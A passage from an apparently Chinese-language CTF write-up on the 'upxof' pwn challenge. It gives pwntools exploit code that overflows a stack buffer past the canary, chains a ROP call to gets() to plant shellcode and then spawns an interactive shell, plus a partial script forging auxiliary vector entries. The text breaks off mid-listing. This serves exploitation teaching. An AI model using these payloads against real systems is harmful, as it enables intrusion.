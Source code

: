 ```python
shellcode_mem=0x601100  #heap段可执行
gets_plt_addr=elf.plt['gets'] #elf为脱壳后的程序
payload2='a'*0x408+p64(0)+p64(0xdeadbeef)+p64(pop_rdi_gadget)+p64(shellcode_mem)+p64(gets_plt_addr)+p64(shellcode_mem) #canary、rbp
p.recvuntil("let's go:")
p.sendline(payload2)
sleep(1)
p.sendline(shellcode)
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1629477817241-7110f1c2-9acf-435c-8246-21672d04db8d.png)

其实，其中一大部分的辅助向量都是可以不用伪造的：

```python
# coding:utf-8
from pwn import *
context.log_level = 'debug'
context.arch="amd64"
context.terminal = ['tmux','splitw','-h']

p=process("./upxof")
elf=ELF("./unpack") #elf为脱壳后的程序
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

'''
pwndbg> auxv
AT_BASE                  0x0
AT_CLKTCK                0x64
AT_EGID                  0x0
AT_ENTRY                 0x400988 ◂— sub    rsp, 0x80
AT_EUID                  0x0
AT_EXECFN                /root/Canary_User_Mode/ctf2/upxof
AT_FLAGS                 0x0
AT_GID                   0x0
AT_HWCAP                 0xf8bfbff
AT_NULL                  0x0
AT_PAGESZ                0x1000
AT_PHDR                  0x400040 ◂— add    dword ptr [rax], eax
AT_PHENT                 0x38
AT_PHNUM                 0x2
AT_PLATFORM              x86_64
AT_RANDOM                0x7fffffffe4d9 ◂— 0x78e1e590d18a1f34
AT_SECURE                0x0
AT_SYSINFO_EHDR          0x7ffff7ffd000 ◂— jg     0x7ffff7ffd047
AT_UID                   0x0
AT_UNKNOWN26             0x0
pwndbg> 
'''

fake_AT_BASE_key=7 
fake_AT_CLKTCK_key=17
fake_AT_EGID_key=14
fake_AT_ENTRY_key=9
fake_AT_EUID_key=12
fake_AT_EXECFN_key=31
fake_AT_FLAGS_key=8
fake_AT_GID_key=13
fake_AT_HWCAP_key=16
fake_AT_NULL_key=0
fake_AT_PAGESZ_key=6
fake_AT_PHDR_key=3
fake_AT_PHENT_key=4
```